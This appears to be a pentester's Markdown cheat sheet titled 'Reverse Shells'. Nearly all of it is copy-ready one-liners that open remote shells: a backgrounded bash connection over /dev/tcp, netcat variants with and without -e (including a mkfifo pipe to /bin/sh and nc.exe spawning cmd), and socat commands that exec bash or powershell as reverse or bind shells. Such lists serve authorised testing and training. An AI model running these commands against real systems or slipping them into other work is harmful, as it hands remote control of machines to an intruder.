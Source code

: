 # Reverse Shells

Power of Two is One with `nohup` and `&`
```bash
# This allows you from one shell create another as a nohup job and background it 
# Two shell from one shell
# Will not work in `script /dev/null -c bash` TTY spawns!
nohup bash -i &>/dev/tcp/10.10.10.10/1337 &
jobs -l # list pids
kill -0 $PID # to kill the nohup job
```

## Netcat 

Netcat without -e
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $IP $PORT >/tmp/f
```

Netcat with -e
```bash
nc -e /bin/sh 10.10.10.10 1234
```

```powershell
nc.exe 10.10.10.10 1337 -e cmd
```
## [[Socat]]

Start a listener:
```bash
socat TCP-L:<PORT> -                                 # connect regardless with '-'
socat -d -d TCP-LISTEN:8080 STDOUT                   # -d -d = increase verbosity of output#
socat TCP4-LISTEN:8080,fork file:filename.txt,create 
# create specifies that a new file will be created.
# fork creates a child process once connection is made to the listener(multiple connections allowed)
```

Connect to reverse Shell:
```bash
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"
```

For Bind Shells start a bind listener
```bash
socat TCP-L:<PORT> EXEC:"bash -li"
socat TCP-L:<PORT> EXEC:powershell.exe,pipes
```
Connect to target regardless:
```bash
socat TCP:<TARGET-IP>:<TARGET-PORT> -
```
